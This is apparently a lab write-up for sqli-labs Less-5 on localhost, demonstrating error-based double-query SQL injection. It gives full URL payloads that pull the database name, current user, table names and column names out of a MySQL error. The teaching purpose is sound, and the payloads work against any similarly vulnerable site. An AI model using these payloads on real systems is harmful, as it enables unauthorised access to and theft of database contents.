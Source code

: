 ﻿We start by testing the ID parameter in with a numeric value, thereby we add **?id=1** Now here we run into an error "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '**'1” LIMIT 0,1'** at line 1’ thereby we make a few changes in the id parameter " ?id=-’.

**PAYLOAD**:”localhost/sqli/Less-5/?id=1' ---+”

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.001.jpeg)

We are greeted with a page that says **“You are in……….”**, but no matter how you change or variate the payload or the query the page remains the same.

We run through the following queries expecting changes:

1.“localhost/sqli/Less-5/?id=1' union all select 1,2,3” 2.“localhost/sqli/Less-5/?id=1' order by 3”

The page remains unchanged.

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.002.jpeg)

Now we proceed by applying a double query type injection in which we will be using an “AND operator to inject our payload through the URL.

**PAYLOAD:**”localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select database()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

Here we are basically using the second query as the base query and the first query as an injection payload.

In the second part of the query or the part after **AND “(select database())”** this is considered as the core part of the query.

Here the letter “**b”** at the end is the derived table alias in the payload.

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.003.jpeg)

We finally get the error message on the page, which shows us the current database in use. Which in this case is **“security”**

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.004.jpeg)

Using the above method we will also be able to find the current user and the version by changing the payload

**PAYLOAD:**“localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select current\_user()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) --+”

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.005.jpeg)

By doing a small modification in the payload we will be able to find out the tables and their respective table names:

**PAYLOAD:** “localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()limit 0,1),0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.006.jpeg)

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.007.jpeg)

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.008.jpeg)

Hereby just changing the limit or iterating over the limit function of the payload, we will be able to find the different tables that are present in the datable namely:

1.uagents

**PAYLOAD:**“localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 2,1),**0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

2.referers

**PAYLOAD:**“localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 1,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

3.users

**PAYLOAD:**localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 3,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

4.emails

**PAYLOAD:**localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database()**limit 0,1)**,0x3a,0x3a, floor(rand()\*2))a from information\_schema.tables group by a)b) –+”

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.009.jpeg)

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.010.jpeg)

![](Aspose.Words.ec33e727-1a3f-43c6-9abf-7919a9f120b1.011.jpeg)

we can also dump the columns in a similar manner by using the following payload, previously we also found out that we have only three columns in our table(users).

**PAYLOAD:** “localhost/sqli/Less-5/?id=1' AND (select 1 from(select count(\*), concat(0x3a,0x3a,(select column\_name from information\_schema.columns where table\_name=”users”limit 0,1),0x3a,0x3a, round(rand()\*2,1))a from information\_schema.tables group by a)b) –+”

Here we run this payload we get our first column which is “id” and if we change the limit and the name of the table in the quotes we will be able to find the various columns that are present in the table.
